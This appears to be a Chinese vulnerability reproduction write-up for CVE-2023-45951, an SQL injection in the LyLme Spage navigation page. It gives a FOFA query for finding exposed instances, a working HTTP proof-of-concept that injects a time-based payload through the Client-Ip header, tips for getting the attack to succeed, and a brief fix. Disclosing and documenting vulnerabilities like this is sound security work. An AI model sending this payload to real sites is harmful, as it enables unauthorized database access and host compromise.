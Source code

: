 
# 六零导航页 SQL 注入漏洞复现（CVE-2023-45951）

### 0x01 产品简介

   LyLme Spage（六零导航页）是中国六零（LyLme）开源的一个导航页面。致力于简洁高效无广告的上网导航和搜索入口，支持后台添加链接、自定义[搜索引擎](https://so.csdn.net/so/search?q=%E6%90%9C%E7%B4%A2%E5%BC%95%E6%93%8E&spm=1001.2101.3001.7020)，沉淀最具价值链接，全站无商业推广，简约而不简单。

### 0x02 漏洞概述

   LyLme Spage v1.7.0 版本存在[安全漏洞](https://so.csdn.net/so/search?q=%E5%AE%89%E5%85%A8%E6%BC%8F%E6%B4%9E&spm=1001.2101.3001.7020)，该漏洞源于通过 function.php 的$userip 参数发现包含 SQL 注入漏洞，未经授权的攻击者可通过该漏洞获取敏感信息，进一步利用可造成主机失陷。

### 0x03 影响范围

LyLme Spage 1.7.0

### 0x04 复现环境

FOFA：title=="上网导航 - LyLme Spage"

![](assets/1698896305-9a216202e3e55b8d4794f19e33f63359.png)

### 0x05 漏洞复现

PoC

```http
POST /apply/index.php?submit=post HTTP/1.1
Host: {{Hostname}}
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Client-Ip: 0'>if(1,sleep(10),2)>'

url=http%3A%2F%2Fbaidu.com&name=test&group_id=1&icon=&authcode=
```

延时 10 秒 

![](assets/1698896305-308b5511202aac5bbe69d9646e9b8ea1.png)

PS：漏洞存在于 HTTP Header 的 `Client-Ip` 字段，请求体中 url 字段值每请求一次就需要更换一次，不然无法成功

### 0x06 修复建议 

 在 get\_real\_ip 中检查验证 IP 合法性，[防止 SQL 注入](https://so.csdn.net/so/search?q=%E9%98%B2%E6%AD%A2SQL%E6%B3%A8%E5%85%A5&spm=1001.2101.3001.7020)
